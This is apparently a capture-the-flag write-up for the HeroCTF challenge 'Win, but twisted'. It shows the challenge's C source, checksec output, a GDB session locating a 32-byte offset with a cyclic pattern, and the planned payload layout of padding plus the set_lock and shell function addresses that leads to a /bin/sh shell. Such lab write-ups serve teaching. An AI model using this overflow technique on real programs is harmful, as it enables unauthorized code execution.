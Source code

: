 # Win, but twisted

![Screenshot_16](https://user-images.githubusercontent.com/67475596/116267591-d833f880-a77c-11eb-90da-a6fcc7751806.png)

In this challenge we were given a binary and a C file, let's analyze them.
```C
#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

#include <sys/types.h>



int UNLOCKED = 0;



void set_lock()

{

    printf("Setting lock !");

    UNLOCKED = 1;

}



void shell()

{

    printf("In shell function ! ");

    if (UNLOCKED == 1)

    {

        printf("Getting shell ! ");

        setreuid(geteuid(), geteuid());

        system("/bin/sh");

    }



    

}



void hello_hero(int hero)

{

    printf("It looks like that's something a Hero would say\n");

}



void look_like()

{

    printf("Please keep being one. :)\n");

}



int main()

{

    int (*look)() = look_like;

    int (*hello)() = hello_hero;

    char buffer[32];



    printf("What would a hero say ?\n>>> ");

    fgets(buffer, 44, stdin);

    hello();

    look();



}
```
```
file WinButTwisted
WinButTwisted: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=30d5731a2385816deab25ce8684e2de08b24846f, for GNU/Linux 4.4.0, not stripped
```
Security:
```bash
checksec WinButTwisted
[*] '/home/kali/Desktop/CTF/HeroCTF/pwn/WinButTwisted'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Uhhm it seems crashed.. 
```bash
./WinButTwisted       
What would a hero say ?
>>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./WinButTwisted
```
Now let's find the exactly offset for our padding.
Create a cyclic string in python with the Pwntools library.
```bash
>>> cyclic_metasploit(40)
b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A'
```
Run the binary into GDB 
```gdb
gef➤  r
Starting program: /home/kali/Desktop/CTF/HeroCTF/pwn/WinButTwisted 
What would a hero say ?
>>> Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A

Program received signal SIGSEGV, Segmentation fault.
0x31624130 in ?? ()
──────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x31624130 ("0Ab1"?)
$ebx   : 0x080e9000  →  0x00000000
$ecx   : 0x080ecde9  →  0x00000000
$edx   : 0xfbad0088
$esp   : 0xffffd0bc  →  0x08049add  →  <main+118> mov eax, DWORD PTR [ebp-0xc]
$ebp   : 0xffffd0f8  →  0x00000800
$esi   : 0x080e900c  →  0x0806d190  →  <__strcpy_ssse3+0> endbr32 
$edi   : 0x0804823c  →  0x00000000
$eip   : 0x31624130 ("0Ab1"?) 
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
──────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd0bc│+0x0000: 0x08049add  →  <main+118> mov eax, DWORD PTR [ebp-0xc]       ← $esp
0xffffd0c0│+0x0004: 0x080e9094  →  0x080ea8c0  →  0x00000000
0xffffd0c4│+0x0008: 0x00000000
0xffffd0c8│+0x000c: "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0cc│+0x0010: "a1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0d0│+0x0014: "2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0d4│+0x0018: "Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0d8│+0x001c: "a5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x31624130
────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "WinButTwisted", stopped 0x31624130 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────── trace ────
───────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```
Here we can see that our EIP register has been overwritten by the pattern 
```gdb
$eip   : 0x31624130 ("0Ab1"?) 
```

Now we have the ingredients to calculate the offset
```bash
>>> cyclic_metasploit_find(0x31624130)
32
```

Analyzing the C code we can see that we have an input with the fgets(), we can take advantage of this function to jump to the set_lock() function that will set the global variable UNLOCKED to 1, this operation will then allow us to jump to the shell() function, the condition if (UNLOCKED == 1) will then be true and we will have a shell opened by the command system("/bin/sh");
so at this point we can get the flag

Now what we need is the address of the set_lock() function and that of shell()

the payload will be structured as follows:
> Payload = PADDING + set_lock()_address + shell()_address
